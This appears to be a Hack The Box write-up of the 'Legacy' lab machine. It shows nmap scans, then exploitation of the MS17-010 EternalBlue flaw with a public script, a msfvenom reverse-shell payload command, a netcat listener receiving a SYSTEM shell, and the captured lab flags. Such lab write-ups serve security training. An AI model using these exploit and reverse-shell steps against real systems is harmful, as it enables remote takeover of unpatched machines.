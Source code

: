 ```yaml
---
title: Legacy - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-04-14
image: images/legacy_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/legacy_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------

# USER
## Enumeration

```bash
[root:/git/htb]# nmap -Pn -n -sCV 10.10.10.4 --open                                                                               (master✱)
  PORT    STATE SERVICE      VERSION
  139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp open  microsoft-ds Windows XP microsoft-ds
  Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

  Host script results:
  |_clock-skew: mean: 5d01h01m15s, deviation: 1h24m50s, median: 5d00h01m15s
  |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:11:0b (VMware)
  | smb-os-discovery:
  |   OS: Windows XP (Windows 2000 LAN Manager)
  |   OS CPE: cpe:/o:microsoft:windows_xp::-
  |   Computer name: legacy
  |   NetBIOS computer name: LEGACY\x00
  |   Workgroup: HTB\x00
  |_  System time: 2021-03-01T12:38:45+02:00
  | smb-security-mode:
  |   account_used: <blank>
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)


[root:/git/htb]# nmap -p139,445 --script vuln 10.10.10.4                                                                          (master✱)
  PORT    STATE SERVICE
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Host script results:
  |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
  | smb-vuln-ms08-067:
  |   VULNERABLE:
  |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
  |     State: LIKELY VULNERABLE
  |     IDs:  CVE:CVE-2008-4250
  |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
  |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
  |           code via a crafted RPC request that triggers the overflow during path canonicalization.
  |
  |     Disclosure date: 2008-10-23
  |     References:
  |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
  |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
  |
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

**MS17-010** EternalBlue is the obvious attack path here, lets exploit it.

**a)** Download the script [**`send_and_execute.py`**](https://github.com/helviojunior/MS17-010)<br>
**b)** Create your malicious payload:<br>
    `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4488 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`

**c)** Execute!
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.14.10 ms17-010.exe                                                       (master✱)
  Traceback (most recent call last):
    File "send_and_execute.py", line 2, in <module>
      from impacket import smb, smbconnection
  ImportError: No module named impacket
```

**d)** If you get the error like above, it's because your python2 version is to new.<br>
: **d1)** uninstall pip3: `sudo apt-get remove python3-pip`<br>
  **d2)** Get pip3 installer: `curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py`<br>
  **d3)** Install pip3: `python3 get-pip.py`<br>
  **d4)** Get pip2 installer: `curl https://bootstrap.pypa.io/2.7/get-pip.py -o get-pip.py`<br>
  **d5)** Install pip2: `python get-pip.py`<br>
  **d6)** Now you can install any pip2 modules: `pip install impacket`<br>
  **d7)** Make sure your python and python-pip are compatible. Python version 2.7.18 and pip 20.3.4 is preffered.<br>

```bash
[root:/git/htb/legacy]# python -m pip -V                                                                                          (master✱)
  pip 20.3.4 from /usr/local/lib/python2.7/dist-packages/pip (python 2.7)

[root:/git/htb/legacy]# python -V                                                                                                 (master✱)
  Python 2.7.18
```

**e)** EXECUTE EXPLOIT AGAIN!
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
  Trying to connect to 10.10.10.4:445
  Traceback (most recent call last):
    File "send_and_execute.py", line 1077, in <module>
      exploit(target, port, pipe_name)
    File "send_and_execute.py", line 794, in exploit
      conn = MYSMB(target, port)
    File "/git/htb/legacy/mysmb.py", line 118, in __init__
      smb.SMB.__init__(self, remote_host, remote_host, timeout=timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/smb.py", line 2434, in __init__
      self._sess = nmb.NetBIOSTCPSession(my_name, remote_name, remote_host, host_type, sess_port, self.__timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 893, in __init__
      timeout=timeout, local_type=local_type, sock=sock)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 752, in __init__
      self._sock = self._setup_connection((remote_host, sess_port), timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 904, in _setup_connection
      raise socket.error("Connection error (%s:%s)" % (peer[0], peer[1]), e)
  socket.error: [Errno Connection error (10.10.10.4:445)] timed out
```

**f)** If above happens, reboot the box and execute a third time.
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
  Trying to connect to 10.10.10.4:445
  Target OS: Windows 5.1
  Using named pipe: browser
  Groom packets
  attempt controlling next transaction on x86
  success controlling one transaction
  modify parameter count to 0xffffffff to be able to write backward
  leak next transaction
  CONNECTION: 0x82208430
  SESSION: 0xe1a57430
  FLINK: 0x7bd48
  InData: 0x7ae28
  MID: 0xa
  TRANS1: 0x78b50
  TRANS2: 0x7ac90
  modify transaction struct for arbitrary read/write
  make this SMB session to be SYSTEM
  current TOKEN addr: 0xe2116d30
  userAndGroupCount: 0x3
  userAndGroupsAddr: 0xe2116dd0
  overwriting token UserAndGroups
  Sending file KCC2VY.exe...
  Opening SVCManager on 10.10.10.4.....
  Creating service vteS.....
  Starting service vteS.....
  The NETBIOS connection with the remote host timed out.
  Removing service vteS.....
  ServiceExec Error on: 10.10.10.4
  nca_s_proto_error
  Done
```
```bash
    [root:/opt/impacket]# nc -lvnp 4488                                                                                                (master)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.4] 1031
      Microsoft Windows XP [Version 5.1.2600]
      (C) Copyright 1985-2001 Microsoft Corp.

      C:\WINDOWS\system32>

      C:\Documents and Settings\john\Desktop>type user.txt
        e69af0e4f443de7e36876fda4ec7644f

      C:\Documents and Settings\Administrator\Desktop>type root.txt
        993442d258b0e0ec917cae9e695d5713
```

# References
- [mysmb.py](https://github.com/worawit/MS17-010/blob/master/mysmb.py)
- [no module named impacket fix](https://webcache.googleusercontent.com/search?q=cache:w_5LbLWkSMwJ:https://stackoverflow.com/questions/66087250/fix-for-kali-impacket-issues-between-python-2-and-3-2020-4+&cd=4&hl=sv&ct=clnk&gl=se)
  